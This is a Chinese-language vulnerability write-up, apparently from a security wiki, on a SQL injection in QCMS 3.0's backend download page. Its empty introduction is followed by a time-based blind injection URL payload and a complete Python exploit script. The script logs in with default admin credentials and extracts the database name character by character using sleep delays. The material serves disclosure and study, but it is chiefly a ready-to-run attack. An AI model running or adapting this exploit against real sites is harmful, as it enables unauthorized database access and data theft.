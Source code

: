 QCMS 3.0 sql注入漏洞
====================

一、漏洞简介
------------

二、漏洞影响
------------

QCMS 3.0

三、复现过程
------------

在后台下载管理处

![](/Users/aresx/Documents/VulWiki/.resource/QCMS3.0sql注入漏洞/media/rId24.png)

构造payload

    http://www.0-sec.org/backend/down.html?title=1';select if(ascii(substr((select database()), 1, 1))-113, 1, sleep(5));%23

这里直接附上简单脚本

    # !/usr/bin/python3
    # -*- coding:utf-8 -*-
    # author: Forthrglory
    import requests

    def getCookie():
        url = 'http://127.0.0.1/admin.php'
        data = {
            'username':'admin',
            'password':'admin'
        }

        session = requests.session()
        res = session.post(url, data)

        return requests.utils.dict_from_cookiejar(res.cookies)

    def getDatabase(url, arr, cookies):

        str = ''
        requests.session()

        for i in range(1, 11):
            for j in arr:
                data = url + '?title=1\';select if(ascii(substr((select database()), %s, 1))-%s, 1, sleep(5));%%23' % (i, ord(j))
                # print(data)
                res = requests.get(url=data, cookies=cookies)
                # print(res.elapsed.total_seconds())
                if(res.elapsed.total_seconds() > 5):
                    str += j
                    print(str)
                    break
        print('database=' + str)


    if __name__ == '__main__':
        url = 'http://127.0.0.1/backend/down.html'
        arr = []

        for i in range(48, 123):
            arr.append(chr(i))

        cookies = getCookie()
        print(cookies)
        getDatabase(url, arr, cookies)

参考链接
--------

> https://xz.aliyun.com/t/7269
